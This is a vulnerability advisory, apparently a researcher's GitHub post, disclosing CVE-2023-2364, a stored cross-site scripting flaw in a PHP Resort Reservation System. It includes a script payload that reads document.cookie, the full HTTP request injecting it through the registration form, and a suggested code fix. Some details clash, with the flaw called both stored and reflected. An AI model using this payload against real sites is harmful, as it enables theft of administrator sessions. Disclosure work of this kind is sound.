 # Resort Reservation System - Stored Cross Site Scripting on Registration Page could allow to hijack admin session

### Date: 
> 26 April 2023

### CVE Assigned:
**[CVE-2023-2364](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2364)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-2364) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-2364)

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Resort Reservation System](https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html)

### Version:
> v 1.0

### What is Stored Cross-Site Scripting:
> Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

### Affected Page: 
> Vulnerable Page: unvalidated data submitted through registration.php and reflected on users.php

> In this page order parameter is vulnerable to Reflected Cross Site Scripting Attack

### Description:
> The Stored XSS found in registration page and without unauthentication any malicious user could inject the Cross-Site Scripting (XSS) to hijack the admin session, it is a serious vulnerability that can have a significant impact on the security of a web application and its users. The main risk associated with Unauthenticated Stored XSS is that it can allow an attacker to steal sensitive information or take control of a admin's account on a web application. This can include login credentials, financial information, personal information, and more. Once an attacker gains access to a admin's account, they can perform any actions that the user is authorized to do. In addition, Unauthenticated Stored XSS can also be used as a stepping stone to launch more advanced attacks, such as phishing attacks, malware distribution, or distributed denial-of-service attacks. By gaining control of a admin's account on a web application, an attacker can use that account as a launching point for further attacks against the user or the web application itself.

### Proof of Concept:
> I registered the dummy user to verify the XSS attack, I used standard XSS payload <script>alert(document.cookie);</script> and the Below Image confirmed that, the parameter is vulnerable to stored XSS.

> Payload: <script>alert(document.cookie);</script>

> Request: 
```
POST /php-sqlite-rrs/LoginRegistration.php?a=register_user HTTP/1.1
Host: localhost
Content-Length: 172
sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/php-sqlite-rrs/registration.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=d723dc8984528029f975c705200f3499
Connection: close

formToken=%242y%2410%24xOJNdT6NDl5IbdjSWkqQzOPga1ppXRtqP9BiJHvMCnnSWkh97G7w.&fullname=%3Cscript%3Ealert(document.cookie)%3B%3C%2Fscript%3E&username=xsstest&password=xsstest
```

> and when we logged in through admin account we got an alert with cookie.
![image](https://user-images.githubusercontent.com/123810418/234568385-44cb7966-5e4a-4c7a-8d48-a9c87b117c87.png)


### Recommendation: 
> Whoever uses this CMS, should update line no 40 and 41 of users.php with the following code to avoid cross-site scripting attack:
```
Old Code: <?php echo $_GET['fullname']; ?> and <?php echo $_GET['username']; ?>
New Code: <?php echo htmlspecialchars(strip_tags($_GET['fullname'])); ?> and <?php echo htmlspecialchars(strip_tags($_GET['username'])); ?>
```

Thank you for reading
